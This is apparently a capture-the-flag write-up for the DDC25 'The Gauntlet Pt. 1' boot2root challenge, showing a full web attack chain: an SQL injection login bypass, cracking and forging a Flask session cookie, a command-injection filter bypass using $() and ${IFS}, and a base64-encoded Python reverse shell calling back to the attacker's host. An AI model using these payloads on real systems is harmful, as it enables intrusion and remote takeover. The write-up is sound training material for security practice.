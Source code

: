 ```yaml
---
title: The Gauntlet Pt. 1 🥇
date: 2025-03-17 00:01 +/-TTTT
categories: [CTF Writeups, DDC25]
tags: [DDC, Boot2Root, Web Exploitation] 
media_subpath: /assets/img/TheGauntlet
---
```


## 🗒️ Challenge description 
>So, you think you're a l33t h4xx0r? Alright, here's my little gauntlet to you then: Break in through the website and get a shell one way or another. Once that's done, escalate your privileges and own the box. You won't be needing any fancy kernel exploits or such, this one's all about bad practices and misconfigurations. Doesn't sound too hard, now does it? Good luck!

>Flag binaries are located at /home/*****/user.flag and /root/root.flag

> the-gauntlet.hkn

## 😎 Writeup

Visiting the website in the browser yields connection refused, which means the website is not running on the default port 80. Running a port scan reveals that the website is running on port 5000.

```bash
nmap -p- -sV -sC -T4 the-gauntlet.hkn
PORT     STATE SERVICE VERSION
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.7.3)
```

Navigating to the website, we see a simple login page. Trying to login with the character `'` in the username field gives us an error message. This indicates that the website may be vulnerable to SQL injection.

Attempting to login with the very common SQL payload `' or 1=1 --` in the username field logs us in as the `Bob` user.

There is an admin page, but our user Bob is not an admin.
Attempting to login with an admin username yields no results.

Our session cookie looks a lot like a JTW, but knowing that the server is liekly running Flask (From the Werkzeug httpd version), it's likely a Flask session cookie.

We can use the `flask-unsign` tool to decode the cookie and see what's inside.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --decode
$ {'user': {'is_admin': False, 'username': 'Bob'}}
```

The user Bob is clearly not admin. We can't just change the flask session cookie directly, because it is signed with a secret key. However, we can attempt to crack the secret key using a wordlist, such as the well-known `rockyou.txt`.

```bash
$ flask-unsign --cookie "eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dRAQ.VMZ6dtW1yBAULzog_qaILJCn8jc" --unsign --wordlist ~/Downloads/rockyou.txt --no-literal-eval
[*] Session decodes to: {'user': {'is_admin': False, 'username': 'Bob'}}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 11264 attempts
b'itsasecret'
```

We got it! The secret is `itsasecret`. Now we can craft our own session cookie and sign it with the secret key.

```bash
$ flask-unsign --secret itsasecret -s --cookie "{'user': {'is_admin': False, 'username': 'Bob'}}"
eyJ1c2VyIjp7ImlzX2FkbWluIjpmYWxzZSwidXNlcm5hbWUiOiJCb2IifX0.Z9dTQQ.6nlu0kizN9TCtjct7R6GVti_1Z8
```

Now we can change the session cookie in our browser to the crafted one and refresh the page. We are now logged in as the admin user.
The admin page contains a ping tool that allows us to ping an IP address. This may be vulnerable to command injection. Attempting to ping the address `127.0.0.1 & whoami` could give us the current user. However, upon trying this we get an error message: `Illegal characters detected`.

Upon further trial and error, we find that `&`, `|`, `;`, and `&&` are all blocked. Even all whitespaces are blocked. This makes it incredibly difficult to perform command injection. But not impossible...

We can use the `$(command)` syntax to execute commands. This syntax is not blocked by the filter. We can use this to execute the command `$(whoami)`, which gives us `user1` in the output, awesome! We have (cursed) command injecion! 🎉

Now we just need to somehow create a reverse shell. But looking at [revshells.com](https://www.revshells.com/){:target="_blank"}, we see that all the reverse shells require the use of illegal characters. The biggest problem is the lack of spaces. But there is a shell trick that allows us to bypass this limitation: the `IFS` variable. Typing `${IFS}` is equivalent to typing a space. 

Create a reverse shell is still very tricky with the limited characters we have. We can potentially use a python reverse shell, and encode it in base64 to avoid using illegal characters. We can then decode the base64 on the server side.

```python
BASE_URL = 'http://10.42.4.137:5000'
OUR_IP = '10.0.240.251'
PORT = 4242
python_payload = 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("' + OUR_IP + '",' + str(PORT) + '));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'

s = requests.Session()
s.cookies['session'] = 'eyJ1c2VyIjp7ImlzX2FkbWluIjp0cnVlLCJ1c2VybmFtZSI6IkJvYiJ9fQ.Z7pi7A.i2nPlzBdXCYgAivTzHxXx8pdxTg'

s.post(BASE_URL + "/admin", data={"command": "$(echo${IFS}'" + base64.b64encode(python_payload.encode()).decode() + "'>base64_payload.txt)"})
```

This will create a file `base64_payload.txt` on the server with the base64 encoded python payload. We can then decode this payload using on the server.

```python
s.post(BASE_URL + "/admin", data={"command": "$(base64${IFS}-d${IFS}base64_payload.txt>shell.py)"})
```

This will create a file `shell.py` on the server with the decoded python payload. Now lets listen for the reverse shell.

```bash
nc -l 4242
```

Finally, we can execute the python payload to get a reverse shell.

```python
s.post(BASE_URL + "/admin", data={"command": "$(python${IFS}shell.py)"})
```

We now have a reverse shell as the user `user1`. We can find the user flag at `/home/user1/user.flag`.

```bash
$ ./home/user1/user.flag
$ Press enter within 3 seconds:
$ DDC{n0th1ng_l1k3_4_b1t_0f_RCE}
```

And that's our flag! 🚩

## 🤓 TL;DR
1. Found Flask website running on port 5000
2. Used SQL injection (`' or 1=1 --`) to login as Bob
3. Cracked session cookie secret key with flask-unsign (`itsasecret`)
4. Forged admin cookie to access admin panel
5. Bypassed command injection filter with `$()` and `${IFS}`
6. Created base64-encoded Python reverse shell
7. Got reverse shell and flag: `DDC{n0th1ng_l1k3_4_b1t_0f_RCE}`